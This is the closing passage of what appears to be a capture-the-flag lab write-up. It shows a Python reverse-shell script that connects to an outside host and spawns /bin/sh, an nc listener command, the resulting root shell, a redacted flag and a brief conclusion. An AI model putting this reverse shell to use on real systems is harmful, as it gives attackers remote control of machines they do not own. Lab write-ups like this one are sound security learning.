 used this python script:

```py
# =*- coding: utf-8 -*-
#!/usr/bin/env python

import socket, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.170.39",9910))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh -i")
```

started a listner on my machine. Pwncat got an error when the conntection should be open. then i decided to go for a standard nc listener. 

```sh
nc -lnvp 9910
```

after 2 minutes i got a root shell and could read the root.txt file.

root.txt: 

```sh

#cat root.txt
7#############################d
```
---

## Conclusion

This box was interessting. The learing was about the enumerating the user on the box and get to the root user. 
